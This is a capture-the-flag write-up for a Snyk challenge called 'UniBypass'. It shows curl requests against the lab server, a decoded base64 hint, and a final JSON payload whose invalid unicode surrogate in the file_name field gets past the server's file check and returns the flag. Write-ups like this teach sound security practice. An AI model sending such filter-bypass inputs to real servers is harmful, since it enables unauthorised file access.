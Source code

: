 # UniBypass

If you wanna be my parser, you gotta get with my friend.

## Objective

Just from the title, we can assume, that there is a possible form to fill and bypass.
The languages are python and JavaScript, so I could assume that there will be an interesting script embedded, possibly, into the HTML.


## Resources

***Link***: https://ctf-101.snyk.io/challenges#UniBypass

***Server***: http://35.211.91.235:8000


## Solution

We can retrieve the HTML page with the curl command as follows below:

```
$curl -X GET 35.211.91.235:8000 >> HelloHax0R.html                      
```
***Results***

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3394  100  3394    0     0  13872      0 --:--:-- --:--:-- --:--:-- 13909


If we take a look into the file, we can find two interesting hints.
The first is about the Javascript code that handles the form text to fill.

This script indicates us, that there is a logic regarding the  fetching of the file.


```
<script>
        window.onload = function(){
            document.querySelector('#submit').addEventListener('click', submit);
        }

        async function submit(){
            const file_name = document.querySelector('#file_name').value;
            const response = await fetch('/', {
                method:'POST',
                headers:{
                    'content-type':'application/json'
                },
                body: JSON.stringify({file_name})
            })
            const responseData = await response.json();
            alert(responseData.response);
        }
    </script>

```

In this possible solution, I will go through curl command and not the form text.
This is the command that I will use to exploit the form, changing only the value of *file_name*.


```
$curl -X POST 35.211.91.235:8000/ -H "Content-Type: application/json" -d '{"file_name":"flag"}' 

```

***Response***

```
{"response":"computer says no"}  or {"response":"it's not that simple"}   
```

Therefore, let's go for the second hint, a base64 encoded, commented string on the bottom of the page.


```
<!--T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK-->
</body>
</html>

```
If we decode the string with the command base64 showed below:


```
echo "T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK" >> suspiciosString 


base64 -d suspiciosString
```
***Results***

```
Once I was parsing-years-old my mommy told me
make sure you work w/ python or you'll get lonely
```

*From this phrase, let's pick up some keywords for reasearch*

A good reasearch could be *parsing w/ unicode bypass*

After a deep browse I found a good article, which describes some invalid character to use https://charbase.com/d86e-unicode-invalid-character.

I tried different values and I assume that the form could be exploited with "flag/ud88*", below an example:

```
curl -X POST "http://35.211.91.235:8000/" -H "Content-Type: application/json" -d '{ "file_name" : "flag\ud88A"}'
```
***Results***

```
{"response":"SNYK{FLAG}"}
```




